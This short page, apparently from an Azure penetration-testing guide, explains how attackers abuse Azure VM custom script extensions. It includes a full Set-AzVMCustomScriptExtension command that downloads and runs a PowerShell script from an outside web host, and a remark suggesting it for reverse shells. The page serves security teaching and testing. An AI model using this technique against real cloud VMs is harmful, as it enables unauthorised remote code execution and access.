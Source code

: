 # Executing VM extensions

### Azure VM extensions are tools used by administrators to configure VMs after they have been deployed. As a way of customizing these extensions for different uses, Microsoft allows for custom script extensions to be created, based on a schema that they have defined.

### This schema includes file URIs or URLs that point to script files that allow us to specify a PowerShell file that we want to execute. As attackers, we will need a web server to host the file URIs.

### The command for running the custom script extension consists of the following parameters:

- ResourceGroupName: The resource group for the VM.

- VMName: The name of the VM.

- Location: The region the VM is in.

- FileUri: The HTTP/HTTPS URL for the script file.

- Run: The file to run; this should be the same as the ps1 filename.

- Name: The name that the custom script extension will have:

## Command example:

    Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension (Use this to run your reverse shells)
